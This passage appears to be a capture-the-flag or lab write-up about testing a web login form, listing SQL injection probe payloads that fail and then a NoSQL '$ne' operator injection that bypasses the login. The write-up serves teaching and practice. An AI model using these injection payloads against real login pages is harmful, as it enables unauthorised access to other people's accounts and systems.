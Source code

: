 ```
username=admin'&password=admin&login=login
username=admin')&password=admin&login=login
username=admin"&password=admin&login=login
username=admin' or 1=1-- &password=admin&login=login
username=admin' and 1=1-- &password=admin&login=login
username=admin' or '1'='1-- &password=admin&login=login
username=admin' and '1'='1-- &password=admin&login=login
username=admin or 1=1-- &password=admin&login=login
username=admin and 1=1-- &password=admin&login=login
```

None of the above payloads results in any changes to the returned page. We repeat the process with a random string of characters instead of "admin", also without success. We also test the "password" parameter and even the "login" parameter, all without success.&#x20;

Since we don't know for sure what kind of database is running on the target, we could reason that a) there is no database and this is another dead end, b) there is a sql injection vulnerability but we have not found it yet, c) this is a nosql database.

Before we delve to deep into further testing for SQLi, let's try some basic NoSQL injections first.

### NoSQL

The following pages contain very nice introductions to NoSQL databases, and I highly recommend you check it out:

{% embed url="https://www.freecodecamp.org/news/nosql-databases-5f6639ed9574" %}

{% embed url="https://www.mongodb.com/nosql-explained" %}

Let's test the login parameters with the following basic payloads:

> username\[$ne]=wronguser\&password\[$ne]=wrongpwd\&login=login

![](<../../.gitbook/assets/5 (2) (1) (1).JPG>)

We get a response message with a redirect to home.php. We have just bypassed the login page, and after being redirected, we end up at the page shown below:

![](<../../.gitbook/assets/6 (2) (1) (1).JPG>)
